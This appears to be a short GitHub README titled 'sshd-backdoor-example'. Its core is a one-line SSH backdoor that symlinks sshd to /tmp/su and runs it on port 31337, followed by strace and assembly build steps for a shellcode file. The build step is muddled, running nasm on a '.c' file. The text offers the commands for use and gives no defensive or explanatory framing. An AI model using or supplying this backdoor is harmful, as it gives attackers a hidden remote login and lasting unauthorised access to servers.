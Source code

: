 # sshd-backdoor-example-
SSH Backdoor example !

## Compile ASM
strace -e execve,symlink ./a.out 
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=31337;

OR $nasm -f elf shellcode.c and ld -s -o shellcode shellcode.o
